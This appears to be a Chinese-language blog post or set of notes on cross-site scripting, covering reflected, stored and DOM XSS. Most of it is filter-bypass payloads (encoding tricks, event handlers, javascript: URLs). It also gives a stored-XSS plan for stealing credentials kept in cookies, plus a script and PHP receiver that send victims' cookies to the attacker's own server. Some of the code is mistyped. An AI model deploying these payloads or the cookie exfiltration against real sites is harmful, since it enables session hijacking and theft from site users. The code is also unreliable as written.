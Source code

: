 ```yaml
---
published: true
---
```

## XSS
   指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入Web里面的html代码会被执行，从而达到恶意用户的特殊目的。  
### Reflect xss： 
   它通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。下面博客很好的讲述了反射型XSS的利用:  
http://netsecurity.51cto.com/art/201311/417201.htm  

对于xss防御的绕过方式：   
1.双写绕过  
输入

	<sc< script>ript>alert(/xss/)< /script>


2.大小写混淆绕过  

	< ScRipt>alert(/xss/)< /script>    
3.

	< img src=1 onerror=alert(/xss/)>  
4.当<>被转译为&lt时

 	" onmouseover=alert(document.domain) x=“  
   （x=" 用于闭合  “>）  
 或者
 
 	" onmouseover=alert(document.domain)>  
5.javascript :alert();#js伪协议在a标签的使用,可以在输入时构造a标签  
   < a  href=javascript :alert(1)>test< /a>  
6.当script被替换xscript时，尝试用tab制表(%09)绕过  
  < a href=javas%09cript:alert(1)>test< /a>  
但是制表符使用在单个标签之内，会被浏览器`正确`去除，然而在跨标签的时候（即闭合前面原有标签，使用在构造者构造的新标签的时候)不会被消除，使用&#09 tab制表符html十进制编码：javascri&#09pt:alert()   

7.特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\。   
javascript中的String.fromCharCode方法来绕过，我们可以把alert("XSS");转换为   
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)那么我们的XSS语句就变成了 
< script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)< /script>    
(String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。)   
8.进行hex编码来绕过XSS。  
< script>alert("xss");< /script> 可以转换为：   
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e

### Stored  xss  
把恶意脚本存储到被攻击者的网站的数据库。其他人访问数据库中的恶意脚本代码后，浏览器执行恶意脚本。 
思路  
1.通过nodeJS在后端开启两个不同端口的服务，即两个不同域的站点。  
2.被攻击者网站  
 a:在登录时，把用户的用户名、密码信息存入cookie中  
 b.有一个评论功能，用户在文本框内输入评论信息，然后提交到服务器。  
3.攻击者在评论处输入< script src='hack.js'>< /script>,点击提交后这段脚本存入到数据库  
 hack.js文件是攻击者网站的js脚本文件，用来获取用户的cookie中的用户名、密码信息，并且把用户名、密码发送到攻击者指定的网站。  
4.当网站的用户访问带有评论< script src='hack.js'>< /script>信息时，会下载hack.js文件，并且执行，网站被攻击。  

### DOM XSS 
由于文档的某些输入输出没有过滤，攻击者可以插入js代码，在客户端进行攻击造成xss攻击。 常见于：document.location,document.URL,document.URLUnencoded,document.referrer,windows.location等 
若插入的js被另一个文档对象所操作那么可以叫它为dom xss。   

1、构造document.write()的playload，如果<>被过滤时，可以使用16进制编码<变为\x3c，>为\x3e    
		\x3cscript\x3ealert(document.domain);\x3c/script\x3e 
  但是document.write在输出的时候会JavascriptDecode一下数据，会把数据原有\去除，所以要变为  
  \\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e   
2、\x不起作用可以考虑unicode编码   
     \\u003cimg src=x onerror=alert(document.domain)\\u003e   

### 当你注入了js，如何取得cookie呢？
1.编写js脚本利用存储型xss漏洞（留言板）来传输cookie到自己的服务器端  
      < script>  
      Var cook =document.cookie;   
      Var  img =‘< img src=“自己的服务器ip/get.php？cookie=‘+encodeURL(cook)+’ “ />’;  
      Document.write(img)  
      < /script>   
2.本地编写get.php 获取传输的COOKEIE存入xss.txt.    
<?php     
 $cook=isset($_GET(‘cookie’))?$_GET(‘cookie’):NULL;     
file_put_contents(“xss.txt”,$cook);   
?>  
得到cookie后就能进行欺骗，想获得更多信息 查看js的document对象和windows对象，ajax请求.     


XSS小技巧   
1、eval(“alert(1)”);会当作js运行   
2、若是页面没有申明charset=UTF-8，那么可以使用UTF-7构造playload http://toolswebtop.com/text/process/decode/utf-7   
3、使用 ‘ //进行闭合,    ”>来闭合value值   
4、有下拉选择框时，可能注入点不止一个，burp查看修改。可能也需要闭合
